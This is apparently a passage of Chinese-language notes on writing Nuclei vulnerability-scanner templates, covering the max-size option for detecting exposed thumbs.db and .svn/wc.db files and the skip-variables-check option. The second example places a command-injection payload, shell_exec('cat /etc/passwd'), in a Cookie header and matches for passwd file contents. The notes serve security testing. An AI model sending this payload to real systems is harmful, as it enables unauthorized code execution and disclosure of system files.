 - https://nuclei.projectdiscovery.io/templating-guide/helper-functions/#deserialization-helper-functions

---

#### 读取大小

```yaml
requests:
  - method: GET
    path:
      - "{{BaseURL}}/thumbs.db"
      - "{{BaseURL}}/.svn/wc.db"

    max-size: 500 # Size in bytes - Max Size to read from server response
    matchers-condition: and
    matchers:
      - type: binary
        binary:
          - "D0CF11E0"  # db
          - "53514C69746520"  # SQLite
        part: body
        condition: or

      - type: status
        status:
          - 200
```

---

#### skip-variables-check

what if my payload contains {{payload here}} and that is not cli env var. Can i escape it or somehow disable nuclei vars detection ?

当你的请求内容里包含 `{{` 时,会被 nuclei 解析为变量,加这个就是告诉nuclei不要解析.

```yaml
requests:
  - method: GET
    path:
      - "{{BaseURL}}"
    headers:
      Cookie: "CSRF-TOKEN=rnqvt{{shell_exec('cat /etc/passwd')}}to5gw; simcify=uv82sg0jj2oqa0kkr2virls4dl"

    skip-variables-check: true
    matchers-condition: and
    matchers:
      - type: status
        status:
          - 200
      - type: regex
        regex:
          - "root:.*:0:0:"
        part: body
```

---